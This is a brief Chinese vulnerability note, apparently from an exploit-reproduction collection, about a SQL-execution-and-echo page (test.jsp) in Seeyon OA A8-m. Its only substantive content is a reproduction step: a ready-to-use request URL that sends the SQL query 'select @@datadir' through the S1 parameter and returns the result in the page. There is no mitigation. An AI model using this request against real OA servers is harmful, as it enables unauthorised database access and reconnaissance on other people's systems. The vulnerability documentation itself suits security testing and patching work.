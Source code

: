 ```yaml
---
title: "致远OA A8-m 存在sql语句页面回显功能"
id: zhfly3356
---
```


# 致远OA A8-m 存在sql语句页面回显功能

## 一、漏洞简介

## 二、漏洞影响

致远OA A8-m

## 三、复现过程

```
http://wwww.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadir 
```